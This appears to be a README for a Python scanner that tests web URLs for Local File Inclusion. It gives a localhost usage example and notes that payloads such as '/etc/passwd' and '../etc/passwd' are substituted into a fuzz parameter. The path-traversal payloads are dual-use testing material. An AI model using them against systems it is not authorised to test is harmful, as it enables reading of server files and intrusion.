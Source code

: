 
# Local File Inclusion

This script can be used in order to check if there is a 
LFI vulnerability.



## Install

```
pip install -r /path/to/requirements.txt
```

## Usage
```
python3 LFI.py http://127.0.0.1/index.php?image={fuzz}
```
We have to input the url link and add the fuzz parameter '{fuzz}'.</br>
'{fuzz}' will be replaced by payloads as '/etc/passwd'.

## Results
```
[+]SUCCESS - LFI vuln found with ../etc/passwd!
```

